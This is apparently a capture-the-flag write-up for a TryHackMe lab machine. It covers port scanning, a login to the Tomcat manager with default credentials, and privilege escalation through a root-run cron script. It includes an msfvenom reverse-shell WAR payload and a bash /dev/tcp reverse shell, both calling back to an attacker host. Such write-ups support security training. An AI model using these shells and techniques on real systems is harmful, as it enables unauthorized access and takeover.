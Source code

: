 ```bash
# PLATFORM          . THM
# CTF NAME          . Thompson
# DESCRIPTION       . boot2root machine for FIT and bsides guatemala CTF
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/bsidesgtthompson
```

```
nmap -sSVC -T5 -p- -oN thompson 10.10.58.155
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
|_  256 b5527e9c019b980c73592035ee23f1a5 (ED25519)

8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 8009 

- I tried exploiting the `ghostcat` vulnerability since the Jserv Protocol is open but it didn't reveal any credentials. More details in [[Tomghost]] ; pretty much exact scenario so far.

#### PORT 8080

- I've checked for the `/manager` page but it asked for credentials. I clicked on cancel and got redirected to a `401 Unauthorized` page with the following credentials example

```
For example, to add the manager-gui role to a user named tomcat with a password of {REDACTED}, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="{REDACTED}" roles="manager-gui"/>
```

- So I've tried that default pair of credentials ... they worked :) 

- So we have access to Tomcat's Web Application Manager. The simplest thing we can do here is to upload a `.war` file that executes a reverse shell. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=attacker_ip LPORT=9999 -f war -o shell.war
```

- Upload the resulted file in the apache manager and deploy it. 

- Then, start a listener and access the webpage.

- I got a connection back under the user `tomcat`. 

- I took a look in `/home/jack` and found the following

- `id.sh` is a script what is writable by us but owned by jack. However, I checked crontab and it seems to be executed by root every minute, so whatever we write in this will get executed as root.

- I've replaced the content with a bash reverse shell

```
#!/bin/bash
sh -i >& /dev/tcp/ip/3131 0>&1
```

- This allowed me to start another reverse shell and to escalate privileges to `root`.

- First flag is in `/home/jack/user.txt`. 
- Last flag is in `/root/root.txt`. 
